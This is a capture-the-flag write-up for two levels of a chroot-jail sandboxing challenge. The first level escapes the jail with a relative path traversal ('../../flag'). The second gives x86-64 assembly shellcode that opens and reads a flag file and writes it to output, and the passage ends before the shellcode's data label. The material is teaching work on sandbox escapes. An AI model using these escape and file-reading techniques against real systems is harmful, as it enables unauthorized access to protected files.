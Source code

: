 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```



## level 1
> This challenge will chroot into a jail in /tmp/jail-XXXXXX. You will be able to easily read a fake flag file inside this
   jail, not the real flag file outside of it. If you want the real flag, you must escape.
   The only thing you can do in this challenge is read out one single file, as specified by the first argument to the
   program (argv[1]).

Let's look at the source code.
```
assert(chroot(jail_path) == 0);
```
Notice that even though the jail has been set, the program did not change directory to `/` and put us in that jail.

That means we are effectively not in jail.

If we give it `/flag` as `argv[1]`, it is interpreted as `/tmp/jail/flag`, which gives us the fake flag.

In order to get the real flag, we have to pass the relative address of the real `/flag` from `/tmp/jail`.
```
hacker@sandboxing-level-1:~$ /challenge/babyjail_level1 ../../flag 
```
The first `..` escapes from the `/jail` and second `..` escapes from the `/tmp` directory.

&nbsp;

## level 2
> You may open a specified file, as given by the first argument to the program (argv[1]).
> You may upload custom shellcode to do whatever you want.

We can use the shellcode that we wrote for Shellcode Injection.
```
.global _start
.intel_syntax noprefix

_start:
	# Open syscall
	lea rdi, [rip + flag]
	mov rsi, 0
	mov rdx, 0
	mov rax, 0x02
	syscall

	# Read syscall
	mov rdi, rax
	mov rsi, rsp
	mov rdx, 1000
	mov rax, 0x00
	syscall

	# Write syscall
	mov rdi, 1
	mov rax, 0x01
	syscall
```